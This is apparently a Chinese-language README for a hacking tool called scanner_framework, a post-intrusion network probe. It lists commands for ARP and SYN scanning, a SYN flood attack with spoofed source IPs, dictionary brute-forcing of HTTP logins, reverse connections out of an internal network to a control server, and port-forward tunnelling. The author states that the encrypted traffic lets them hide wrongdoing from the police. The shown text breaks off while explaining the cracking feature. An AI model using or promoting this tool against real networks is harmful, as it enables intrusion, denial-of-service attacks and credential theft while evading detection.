 
scanner_framework

===

网络探测框架,适用于入侵到内网探测其它网络设备,探测器具有体积小,功能多,而且带有反向连接从内网穿透出外网连接控制终端,通信数据采用动态加密,再也不怕警察叔叔知道我在干坏事儿啦,为了方便破解一些弱口令设备,内部带有在线破解功能(暂时支持HTTP 破解).如果觉得这些功能满足不了需求,可以使用端口映射把你需要的工具直接通过隧道对接到内网的某台指定的主机端口上进行扫描..

***

###LCatro

***

###启动方式
scanner.exe 控制台启动
scanner.exe -bind [%port%] 绑定端口,远程访问
scanner.exe -recon %ip% [%port%] 反向连接,远程访问,默认是80 [WARNING! 记得先启动reverse_server ,不然scanner.exe 不能成功连接]

###使用方法
扫描当前网段存活的主机,并且自动搜集数据
using:arp
获取当前主机的网络信息
using:local
测试主机是否连通
using:ping %ip%
TCP SYN 扫描主机
using:scan %ip% [-P:[port1,port2,port3,...]] [-F:[fake_ip1,fake_ip2,...]]
洪水攻击主机
using:flood %ip% [-P:[port1,...]] [-F:[fake_ip1,...]]
在线破解
using:crack %ip% %port% [%user_dictionary_path% %password_dictionary_path%]
路由跟踪
using:tracert %ip%
抓取页面
using:getpage %ip% [-PORT:%port%] [-PATH:%path%]
启动端口转发功能
using:route -R:[%remote_ip%,%remote_port%] -L:[[%local_ip%,]%local_port%]
显示帮助
using:help
退出
using:quit

###在线破解 crack
	在线破解功能原理是通过自己构造特定的HTTP 数据包然后程序根据字典穷举测试出帐号密码
	###什么是表达式?
	表达式的意思是给程序一个填充数据的框架,在接下来的穷举测试中会根据表达式内的关键字来填充数据,下面是在线破解的例子:
	
	本地网络192.168.1.103:80 启用了PHP 服务器,在探测器里面输入破解命令
	
	crack 192.168.1.103 80
	
然后会提示输入表达式
	
input your crack express:
	
	输入数据包数据
	



reverse_server 是用来做反向连接用的服务端
scanner.exe -bind 参数启动程序,可以使用putty 的Raw 方式来连接到扫描器
